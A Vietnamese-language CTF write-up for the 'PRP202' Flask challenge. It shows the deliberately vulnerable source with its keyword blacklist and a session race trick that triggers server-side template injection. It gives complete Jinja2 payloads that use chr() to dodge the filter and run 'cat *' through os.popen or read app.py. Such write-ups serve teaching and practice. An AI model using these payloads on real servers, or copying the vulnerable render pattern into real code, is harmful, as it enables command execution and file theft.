 ```yaml
---
layout: post
title:  "Welcome to Jekyll!"
date:   2020-11-10 21:30:23 +0700
categories: 
render_with_liquid: false
---
```


# h1
## h2
### h3
#### h4


# PRP202

> Một bài hay và cực khó với mình, chả trách người anh T giấu tên cứ bảo làm thử<br>
> 2 ngày để làm, nhiều lần thất bại, nhưng kết quả thật xứng đáng

## Source code and analysis

### Source code
Bắt đầu vào bài, tại trang index, Ctrl U lên thấy [source code](https://github.com/phucdc-noob/FUSec-Write-Ups/blob/main/PRP202.py) Flask của web

```python
app = Flask(__name__, template_folder="template")
SESSION_TYPE = "filesystem"
app.config.from_object(__name__)
Session(app)
authCode = "C4n 1 Trust Y0u? Player "


# Our bot detected that some users had gained access to the system by malicious function, so we decided to ban it.
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]


def authCheck(input):
    if session.get(input) == None:
        return ""
    return session.get(input)


@app.route("/", methods=["GET", "POST"])
def index():
    try:
        session.pop("userCode")
        session.pop("winner")
    except:
        pass
    if request.method == "POST":
        ok = request.form["ok"]
        for ban in blacklist:
            if ban in request.form["name"]:
                return render_template_string("Hacker Alert!!!")
        session["userCode"] = request.form["name"]
        if ok == "Let's play!":
            session["check"] = "access"
            # bypass this? No way haha :D
            winner = "cocailonditconbamay"
            session["winner"] = winner
            return render_template_string(
                "Generating winner hash...<script>setInterval(function(){ window.location='/doanxem'; }, 500);</script>"
            )
    return render_template("index.html")


@app.route("/doanxem", methods=["GET", "POST"])
def doanxem():
    try:
        if authCheck("check") == "":
            return render_template_string(authCode + authCheck("userCode"))
        else:
            if request.method == "POST":
                winner_input = request.form["winner"]
                if winner_input == authCheck("winner"):
                    mess = (
                        "You are the real winner!!!!!!!!!! "
                        + authCheck("userCode")
                        + ", here your flag: https://youtu.be/dQw4w9WgXcQ"
                    )
                elif winner_input != authCheck("winner"):
                    mess = "Wrong! You die!<script>setInterval(function(){ window.location='/choilai'; }, 1200);</script>"
                return render_template_string(mess)
            return render_template("doanxem.html")
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


@app.route("/choilai")
def reset_access():
    try:
        session.pop("check")
        return render_template_string(
            "You got an Extra Change. Gud luck :D!!!!!!<script>setInterval(function(){ window.location='/'; }, 500);</script>"
        )
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


if __name__ == "__main__":
    app.secret_key = "###########"
    serve(app, host="0.0.0.0", port=8900)
```

### Analysis

Có `render_template_string()` nên rất dễ đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection)

Nhưng vì đã bị chặn `request.args` nên chắc phải inject từ một input nào đó :v

Review lại source code thì ta thấy có 2 chỗ `render_template_string()` cần sử dụng `authCheck("userCode")`, chính là cái tên ta nhập ở index

Ở `doanxem()` ta thấy `mess` là một đoạn code chuyển hướng sang `/choilai`

Sang đến `choilai()` thì ta thấy rằng nó sẽ `pop` cái mục `check` của session data, vậy câu hỏi ở đây là, nếu như ta để cho `doanxem` gửi một request sang `/choilai`, nhưng trước khi `/choilai` kịp render, ta drop cái request đó? Tất nhiên cái `session.pop("check")` vẫn được thực thi, nhưng không render. Và nếu ta gửi tiếp một request của `doanxem` vào `/choilai`, điều gì sẽ xảy ra? `session.pop()` sẽ lỗi vì đã pop trước đó, nên giờ không còn gì mà pop, và thay vì render ra chuyển hướng về index, thì đoạn render cuối sẽ được thực thi.

Đã rõ cách để trigger template, thử nhập `{{7*7}}` ở index và làm các bước như trên:

![7*7](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_1.png)

## Exploit

Vậy là đã rõ, bây giờ việc cần làm là tạo ra payload, trước tiên, hãy review cái black list của source code đã:

```python
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]
```

Đoạn này khá là khó, vì black list chứa những kí tự và từ khóa phổ biến để tạo payload SSTI

Suy nghĩ mãi làm thế nào để tạo payload thì người anh TungDLM bảo `chr`, sáng dạ thêm một tí

Cụ thể thì ta sẽ dùng `chr()` để tạo các kí tự trong string và ghép chúng lại, nhưng trước tiên, phải define nó

Thử nhập `().__class__.__base__.__subclasses__()` để list các subclass và mình thấy, tại vị trí 80 có `<class '_frozen_importlib._ModuleLock'>`, có thể sử dụng nó để define `chr`:

```python
{% set ().__class.__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}
```

Đoạn này phải cảm ơn 3 chữ `s e t` của anh TaiDH, một pro đã giải bài này trong 15 phút, trước cả mình

Ok, để đoạn define ở đó, bây giờ đến đoạn payload chính, có rất nhiều hướng làm:

### Sử dụng `cycler`, `__doc__` và `replace` (TungDLM):

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
```

Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
```

### Sử dụng `__add__` (by me):

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

## Flag:

![flag](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_2.png)

Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

> Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

## References:

- [https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b](https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b), WU của anh TungDLM trong giải NightWolf-CTF do SAS tổ chức, trong đó có bài XSMB, cùng SSTI tương tự, tại bài đó, anh Tùng có đính kèm 2 link tham khảo
    
- [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html), đây là bài viết mình tham khảo rất rất nhiều, chi tiết và có thêm 3 đoạn code viết bằng python giúp tìm vị trí các class dễ hơn, một số trick bypass filter, nên tham khảo

- [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection), đây là bài viết của Jame Kettle về SSTI, nếu nhớ không nhầm chính ông này nghiên cứu ra SSTI, nên đọc nếu chưa biết nhiều về SSTI

